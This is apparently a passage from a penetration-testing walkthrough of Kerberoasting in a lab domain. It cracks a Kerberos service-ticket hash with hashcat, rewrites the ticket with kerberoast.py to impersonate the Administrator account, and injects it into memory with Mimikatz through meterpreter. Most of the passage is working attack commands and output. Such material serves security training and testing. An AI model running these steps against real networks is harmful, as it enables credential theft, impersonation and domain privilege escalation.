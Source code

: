 ```

Approaching final keyspace - workload adjusted.

$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
<truncated due to size>

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 TGS-REP etype 23
Hash.Target......: $krb5tgs$23$*1-40a10000-Administrator@HTTP~testServ...c115e3
Time.Started.....: Tue Jan 10 07:41:11 2023 (0 secs)
Time.Estimated...: Tue Jan 10 07:41:11 2023 (0 secs)
Guess.Base.......: File (wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       26 H/s (0.03ms) @ Accel:32 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 3/3 (100.00%)
Rejected.........: 0/3 (0.00%)
Candidates.1.....: test123  -> N0tpassword!
```

If you want to view the hash + cracked password at a later date run the above command with `--show` appended.
```
msfuser@ubuntu:~/git/kerberoast$ hashcat -m 13100 --force -a 0 hash.txt wordlist.txt --show
$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
<truncated due to size>
39efa046757894679beba5b296fe0cdc11100b9a536264cb5e3cb3c6d0426acaa7dd3928895d32973fab2695476093ddbd087c115e3:N0tpassword!
```

### Rewrite Service Tickets & RAM Injection

Kerberos tickets are signed with the NTLM hash of the password. If the ticket hash has been cracked then it is possible
to rewrite the ticket with [Kerberoast](https://github.com/nidem/kerberoast) python script. This tactic will allow users
to impersonate any domain user or a fake account when the service is going to be accessed. Additionally privilege
escalation is also possible as the user can be added into an elevated group such as Domain Admins.

```
➜  kerberoast git:(master) ✗ python3  kerberoast.py -p N0tpassword! -r 1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi -w Administrator.kirbi -u 500
```


The new ticket can be injected back into the memory with the following Mimikatz command in order to perform
authentication with the targeted service via Kerberos protocol.

```
meterpreter > kiwi_cmd kerberos::ptt Administrator.kirbi
```
